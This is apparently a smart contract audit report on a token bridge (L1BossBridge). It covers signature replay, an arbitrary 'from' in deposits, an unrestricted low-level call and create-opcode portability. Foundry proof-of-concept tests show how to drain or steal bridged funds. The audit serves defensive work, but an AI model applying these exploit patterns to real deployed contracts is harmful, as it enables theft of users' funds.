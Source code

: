 ### [H-1] Critical Signature Replay Vulnerability

**Description:** The `sendToL1` function validates the signature but does not prevent it from being reused.

```solidity
    function sendToL1(uint8 v, bytes32 r, bytes32 s, bytes memory message) public nonReentrant whenNotPaused {
>>>     address signer = ECDSA.recover(MessageHashUtils.toEthSignedMessageHash(keccak256(message)), v, r, s);
>>>     if (!signers[signer]) {
>>>         revert L1BossBridge__Unauthorized();
>>>     }
//...
    }
```

**Impact:** An attacker can replay a valid signature to execute the same withdrawal multiple times, potentially draining all funds from the bridge across multiple chains.

**Proof of Concepts** 

Add the following to the `L1TokenBridge.t.sol`. 

The attacker replayed the signature and withdraw twice.

```solidity
    function test_audit_signatureReplay() public {
        address attacker = makeAddr("attacker");
        uint256 depositAmount = 10e18;
        vm.prank(deployer);
        token.transfer(address(attacker), depositAmount);

        // user and attacker deposit same amount
        vm.startPrank(user);
        token.approve(address(tokenBridge), depositAmount);
        tokenBridge.depositTokensToL2(user, userInL2, depositAmount);
        vm.stopPrank();

        vm.startPrank(attacker);
        token.approve(address(tokenBridge), depositAmount);
        tokenBridge.depositTokensToL2(attacker, attacker, depositAmount);

        assertEq(token.balanceOf(address(vault)), depositAmount * 2);

        // operator signs one withdrawals for attacker
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(
            _getTokenWithdrawalMessage(attacker, depositAmount),
            operator.key
        );

        // attacker replays signature and drains user's funds 
        tokenBridge.withdrawTokensToL1(attacker, depositAmount, v, r, s);
        tokenBridge.withdrawTokensToL1(attacker, depositAmount, v, r, s);
        vm.stopPrank();

        assertEq(token.balanceOf(address(attacker)), depositAmount * 2);
        assertEq(token.balanceOf(address(vault)), 0);
    }

```

**Recommended mitigation** Incorporate a unique nonce and the chain ID into the signed message hash to prevent replay attacks.

### [H-2] Arbitrary `from` Address in `depositTokensToL2` Allows Fund Theft

**Description** The `depositTokensToL2` function uses a user-supplied `from` parameter to specify the source of funds, instead of validating against `msg.sender`.

```solidity
    function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
//...
>>>     token.safeTransferFrom(from, address(vault), amount);
//...
    }
```

**Impact** An attacker can steal funds from any user who has approved the bridge contract. The attacker calls `depositTokensToL2`, setting the `from` parameter to the victim's address and `l2Recipient` to their own, effectively depositing the victim's tokens and receiving the credit on L2.

**Proof of Concepts**

Add the following to the `L1TokenBridge.t.sol`. 

The test demonstrates an attacker depositing a user's approved tokens and designating themselves as the recipient on L2.

```solidity
    function test_audit_arbitraryTransferFrom() public {
        // depositTokensToL2 doesn't use msg.sender
        vm.startPrank(user);
        uint256 depositAmount = 10e18;
        uint256 userInitialBalance = token.balanceOf(address(user));
        // user approve for bridge
        token.approve(address(tokenBridge), depositAmount);
        vm.stopPrank();

        address attacker = makeAddr("attacker");
        vm.prank(attacker);
        // attacker deposits user's funds with their own address in L2
        vm.expectEmit(address(tokenBridge));
        emit Deposit(user, attacker, depositAmount);
        tokenBridge.depositTokensToL2(user, attacker, depositAmount);

        // deposited successfully with the user's funds
        assertEq(token.balanceOf(address(vault)), depositAmount);
        assertEq(
            token.balanceOf(address(user)),
            userInitialBalance - depositAmount
        );
    }
```

**Recommended mitigation** Use `msg.sender` as the source of funds instead of the `from` parameter.

```diff
-   function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+   function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {   
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
-       token.safeTransferFrom(from, address(vault), amount);
+       token.safeTransferFrom(msg.sender, address(vault), amount);

        // Our off-chain service picks up this event and mints the corresponding tokens on L2
-       emit Deposit(from, l2Recipient, amount);
+       emit Deposit(msg.sender, l2Recipient, amount);
    }
```

### [M-1] Low-Level Call in `sendToL1` Allows Arbitrary Execution

**Description** The `sendToL1` function in `L1BossBridge.sol#L119` uses a low-level `call` to execute a transaction with user-provided data. 

```solidity
    function sendToL1(uint8 v, bytes32 r, bytes32 s, bytes memory message) public nonReentrant whenNotPaused {
        // ...
        (address target, uint256 value, bytes memory data) = abi.decode(message, (address, uint256, bytes));
>>>     (bool success,) = target.call{ value: value }(data);
        // ...
    }
```

Since `sendToL1` is a permissionless function, it can be used to execute arbitrary code if it's also used for gasless transactions. The function lacks checks for whitelisted contracts or function signatures.

**Impact** 

- **Fund Theft:** An attacker can craft a message that calls `L1Vault.approveTo`, granting the attacker an unlimited allowance to withdraw all funds from the vault.
- **Gas Bomb:** An attacker can submit a message with a large amount of data, forcing the relayer to consume a significant amount of gas.

**Proof of Concepts**

Add the following to `L1TokenBridge.t.sol`. 

This test shows an attacker creating a signature with a malicious payload, which calls `approveTo` and gives the attacker a full allowance to the vault's funds.

```solidity
    function test_audit_lowLevelCall() public {
        address attacker = makeAddr("attacker");
        bytes memory message = abi.encode(
            address(vault), // target
            0, // value
            abi.encodeCall(L1Vault.approveTo, (attacker, type(uint256).max)) // data
        );
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);
        tokenBridge.sendToL1(v, r, s, message);
        assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    }
```


**Recommended mitigation** Change the visibility of `sendToL1` to `internal` so that it can only be called by `withdrawTokensToL1`.

### [M-2] Missing Replay Protection in `Deposit` Event

**Description** The `Deposit` event in `L1BossBridge.sol#L77` does not include replay protection mechanisms, such as a nonce or chain ID.

```solidity
    function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
        // ...
        // Our off-chain service picks up this event and mints the corresponding tokens on L2
>>>     emit Deposit(from, l2Recipient, amount);
    }
```

This omission could potentially confuse off-chain services that track these events, and may lead to replay attacks if not handled carefully off-chain.

**Impact** Similar to the signature replay vulnerability, the lack of replay protection in the `Deposit` event could lead to the double-counting of deposits or other accounting errors off-chain.

**Recommended mitigation** Add a `nonce` and `chainId` to the `Deposit` event to ensure each deposit is unique and can be tracked across different chains.

### [M-3] `create` Opcode May Behave Differently on L2

**Description** The `deployToken` function in `L1BossBridge.sol#L25` uses the `create` opcode to deploy token contracts.

```solidity
    function deployToken(string memory symbol, bytes memory contractBytecode) public onlyOwner returns (address addr) {
        assembly {
>>>         addr := create(0, add(contractBytecode, 0x20), mload(contractBytecode))
        }
        s_tokenToAddress[symbol] = addr;
        emit TokenDeployed(symbol, addr);
    }
```

This protocol is intended for deployment on L2 networks. However, some L2s, such as [ZKsync](https://docs.zksync.io/zksync-protocol/differences/evm-instructions), have different implementations for certain EVM instructions. On ZKsync, for instance, `create` and `create2` do not behave as they do on L1.

**Impact** If the `create` opcode behaves differently on the target L2, it could lead to the deployment of malicious or incorrect token contracts. This could result in the loss of funds if users interact with a compromised ERC20 contract.

**Recommended mitigation** Use the `new` keyword for contract deployment instead of the `create` opcode. This will ensure consistent behavior across different L2 networks.
